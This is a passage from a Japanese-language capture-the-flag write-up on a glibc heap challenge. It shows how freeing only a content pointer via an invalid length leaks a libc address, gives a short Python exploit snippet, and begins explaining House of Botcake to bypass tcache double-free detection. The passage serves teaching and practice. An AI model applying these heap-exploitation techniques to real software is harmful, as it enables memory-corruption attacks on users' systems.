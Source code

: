 `delete`したあと、`0x55555555b300`にlibc内のアドレスがあるのだが、puts()が`0x000055555555b010`を指してしまっているので、リークできない。

#### 成功例
`edit`関数の中で以下の処理がある。

```c
void edit() {
  printf("index> ");
  int index = get_int();
    //（中略）
  free(msg[index]->content);
  
  printf("new_len> ");
  int new_len = get_int();
  
  if(new_len <= 0){
    puts("invalid length");
    return;
  }
```
indexにinvalid length(`-1`など)の値を与えると、`msg[index]->content`だけをfreeする。
そうすると、puts()が`0x000055555555b300`を指してくれるので、libc leakできる。

```none
puts@plt (
   $rdi = 0x000055555555b300 → 0x00007ffff7fc1be0 → 0x000055555555b840 → 0x0000000000000000,
   $rsi = 0x00000000ffffffda,
   $rdx = 0x0000000000000008
)
```

### libc leakのパート
```python
new("0", "16", b"AAAA")
new("1", "1280", b"BBBB")
new("2", "16", b"CCCC")

edit("1", "-1")
show("1")
libc.address = u64(io.recvline()[:-1].ljust(8, b"\0")) - arena_top
```

## House of botcakeによってdouble free detectedを回避

まず、glibc-2.28から`tcache_entry`にkeyというメンバが追加されていて、double freeをすると、検知されるようになっている。
それを回避する方法が、`House of botcake`である。

要するに、`key`が`tcache`でなければ、`double free detected`は起きないだろうということである。([malloc.c#L4193](https://elixir.bootlin.com/glibc/glibc-2.31/source/malloc/malloc.c#L4193))

```c
if (__glibc_unlikely (e->key == tcache))
  {
    tcache_entry *tmp;
    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
    for (tmp = tcache->entries[tc_idx];
	 tmp;
	 tmp = tmp->next)
      if (tmp == e)
	malloc_printerr ("free(): double free detected in tcache 2");
    /* If we get here, it was a coincidence.  We've wasted a
       few cycles, but don't abort.  */
  }
```
